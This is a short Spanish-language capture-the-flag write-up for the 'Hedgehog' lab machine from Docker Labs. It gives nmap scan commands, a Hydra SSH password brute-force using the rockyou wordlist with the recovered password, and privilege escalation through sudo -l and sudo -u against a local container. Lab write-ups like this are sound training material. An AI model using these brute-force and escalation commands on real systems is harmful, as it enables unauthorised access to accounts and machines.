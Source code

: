# Hedgehog

Dificultad: Muy Facil
Tecnicas: Hydra - Sudo -l
Pagina: Docker labs
Estado: Listo

# 

```bash
Lo primero que hacemos es ver q puertos están abiertos 

nmap -p- -—open —min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allport
```

![image.png](image.png)

```bash
Luego tiramos unos script basicos y buscamos las versiones de los puertos abiertos 

nmap -p22,80 -sCV -oN targeted 172.17.0.2
```

![image.png](image%201.png)

```bash
Al ingresar a la pagina, vemos el nombre tails el cual veremos si es un posible usuario
```

![image.png](image%202.png)

```bash
**Vamos a utilizar hydra para ver si encontramos la contraseña

hydra -l tails -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

-> Contraseña: 3117548331

Luego ingresamos mediante ssh**
```

![image.png](image%203.png)

# Subida de Privilegio

```bash

Una vez ingresado como tails, vamos a usar sudo -l para ver si tenemos alguna forma de elevar nuestro privilegio
Vemos que podemos migrar al usuario sonic 
```

![image.png](image%204.png)

```bash
Migramos con sudo -u sonic -i
```

![image.png](image%205.png)

```bash

Una vez ingresado como sonic, vamos a usar sudo -l para ver si tenemos alguna forma de elevar nuestro privilegio
Vemos que podemos migrar a cualquier usuario sin proporcionar contraseña
```

![image.png](image%206.png)